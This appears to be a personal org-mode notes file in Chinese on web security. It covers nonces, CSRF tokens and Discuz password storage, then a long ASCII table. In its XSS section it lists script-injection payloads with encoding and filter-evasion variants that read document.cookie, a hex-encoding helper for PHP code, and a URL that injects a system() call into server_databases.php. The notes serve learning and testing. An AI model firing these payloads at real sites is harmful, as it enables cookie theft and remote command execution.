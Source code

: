 #+TITLE: 安全
#+LINK_UP: index.html
#+LINK_HOME: index.html

* nonce
  nonce可以防止replay攻击，例如给某人转账100次。

  [[http://stackoverflow.com/questions/2250263/csrf-protection-by-storing-nonce-in-session-variable-and-form][CSRF protection by storing nonce in Session variable and form]]

* CSRF token
  可以存放在session中，例如session["csrf_token"]，然后在每一个form提交的时候都要进行判断。

  [[http://stackoverflow.com/questions/5691492/csrf-tokens-vs-nonce-confusion-are-they-the-same][CSRF tokens vs Nonce confusion - are they the same?]]

* discuz
  cdb_members里面的password字段存放的是随机数，cdb_uc_members的password存放的才是真正的密码。

* xss
  #+BEGIN_EXAMPLE
      Oct   Dec   Hex   Char                        Oct   Dec   Hex   Char
      ────────────────────────────────────────────────────────────────────────
      000   0     00    NUL '\0'                    100   64    40    @
      001   1     01    SOH (start of heading)      101   65    41    A
      002   2     02    STX (start of text)         102   66    42    B
      003   3     03    ETX (end of text)           103   67    43    C
      004   4     04    EOT (end of transmission)   104   68    44    D
      005   5     05    ENQ (enquiry)               105   69    45    E
      006   6     06    ACK (acknowledge)           106   70    46    F
      007   7     07    BEL '\a' (bell)             107   71    47    G
      010   8     08    BS  '\b' (backspace)        110   72    48    H
      011   9     09    HT  '\t' (horizontal tab)   111   73    49    I
      012   10    0A    LF  '\n' (new line)         112   74    4A    J
      013   11    0B    VT  '\v' (vertical tab)     113   75    4B    K
      014   12    0C    FF  '\f' (form feed)        114   76    4C    L
      015   13    0D    CR  '\r' (carriage ret)     115   77    4D    M
      016   14    0E    SO  (shift out)             116   78    4E    N
      017   15    0F    SI  (shift in)              117   79    4F    O
      020   16    10    DLE (data link escape)      120   80    50    P
      021   17    11    DC1 (device control 1)      121   81    51    Q
      022   18    12    DC2 (device control 2)      122   82    52    R
      023   19    13    DC3 (device control 3)      123   83    53    S
      024   20    14    DC4 (device control 4)      124   84    54    T
      025   21    15    NAK (negative ack.)         125   85    55    U
      026   22    16    SYN (synchronous idle)      126   86    56    V
      027   23    17    ETB (end of trans. blk)     127   87    57    W
      030   24    18    CAN (cancel)                130   88    58    X
      031   25    19    EM  (end of medium)         131   89    59    Y
      032   26    1A    SUB (substitute)            132   90    5A    Z
      033   27    1B    ESC (escape)                133   91    5B    [
      034   28    1C    FS  (file separator)        134   92    5C    \  '\\'
      035   29    1D    GS  (group separator)       135   93    5D    ]
      036   30    1E    RS  (record separator)      136   94    5E    ^
      037   31    1F    US  (unit separator)        137   95    5F    _
      040   32    20    SPACE                       140   96    60    `
      041   33    21    !                           141   97    61    a
      042   34    22    "                           142   98    62    b
      043   35    23    #                           143   99    63    c
      044   36    24    $                           144   100   64    d
      045   37    25    %                           145   101   65    e
      046   38    26    &                           146   102   66    f
      047   39    27    ´                           147   103   67    g
      050   40    28    (                           150   104   68    h
      051   41    29    )                           151   105   69    i
      052   42    2A    *                           152   106   6A    j
      053   43    2B    +                           153   107   6B    k
      054   44    2C    ,                           154   108   6C    l
      055   45    2D    -                           155   109   6D    m
      056   46    2E    .                           156   110   6E    n
      057   47    2F    /                           157   111   6F    o

      060   48    30    0                           160   112   70    p
      061   49    31    1                           161   113   71    q
      062   50    32    2                           162   114   72    r
      063   51    33    3                           163   115   73    s
      064   52    34    4                           164   116   74    t
      065   53    35    5                           165   117   75    u
      066   54    36    6                           166   118   76    v
      067   55    37    7                           167   119   77    w
      070   56    38    8                           170   120   78    x
      071   57    39    9                           171   121   79    y
      072   58    3A    :                           172   122   7A    z
      073   59    3B    ;                           173   123   7B    {
      074   60    3C    <                           174   124   7C    |
      075   61    3D    =                           175   125   7D    }
      076   62    3E    >                           176   126   7E    ~
      077   63    3F    ?                           177   127   7F    DEL

    Tables
      For convenience, let us give more compact tables in hex and decimal.

         2 3 4 5 6 7       30 40 50 60 70 80 90 100 110 120
       -------------      ---------------------------------
      0:   0 @ P ` p     0:    (  2  <  F  P  Z  d   n   x
      1: ! 1 A Q a q     1:    )  3  =  G  Q  [  e   o   y
      2: " 2 B R b r     2:    *  4  >  H  R  \  f   p   z
      3: # 3 C S c s     3: !  +  5  ?  I  S  ]  g   q   {
      4: $ 4 D T d t     4: "  ,  6  @  J  T  ^  h   r   |
      5: % 5 E U e u     5: #  -  7  A  K  U  _  i   s   }
      6: & 6 F V f v     6: $  .  8  B  L  V  `  j   t   ~
      7: ´ 7 G W g w     7: %  /  9  C  M  W  a  k   u  DEL
      8: ( 8 H X h x     8: &  0  :  D  N  X  b  l   v
      9: ) 9 I Y i y     9: ´  1  ;  E  O  Y  c  m   w
      A: * : J Z j z
      B: + ; K [ k {
      C: , < L \ l |
      D: - = M ] m }
      E: . > N ^ n ~
      F: / ? O _ o DEL

  #+END_EXAMPLE

  #+BEGIN_EXAMPLE
    <script>alert(1)</script>
    [%3c]scr[%69]pt[%3e]alert(1)[%3c]/scr[%69]pt[%3e]
    &#60scrip&#116&#62alert(/et/)&#60/scrip&#116&#62
    &#60&#115&#99&#114&#105&#112&#116&#62alert(/et/)&#60/scrip&#116&#62

    <img src="http://1.com/">aa<img src=


    -- original

    "><script >alert(document.cookie)</script>
    "><ScRiPt>alert(document.cookie)</ScRiPt>
    "%3e%3cscript%3ealert(document.cookie)%3c/script%3e
    "><src<script>ipt>alert(document.cookie)</scr</script>ipt>
    %00"><script>alert(document.cookie)</script>

    -- compress

    "><script >alert(document.cookie)</script> "><ScRiPt>alert(document.cookie)</ScRiPt> "%3e%3cscript%3ealert(document.cookie)%3c/script%3e "><src<script>ipt>alert(document.cookie)</scr</script>ipt> %00"><script>alert(document.cookie)</script>

  #+END_EXAMPLE

  #+BEGIN_SRC python
    def to_hex(ch):
        return '\\' + hex(ord(ch))[1:]

    def enc(s):
        return ''.join(to_hex(c) for c in s)

    print enc('<?php echo 111; ?>')
  #+END_SRC

  #+BEGIN_EXAMPLE
    server_databases.php?pos=0&dbstats=0&sort_by="]) OR system('echo 11111111111'); //&sort_order=desc&token=f93987926a4b7ba064836c7ed4f4f516
  #+END_EXAMPLE
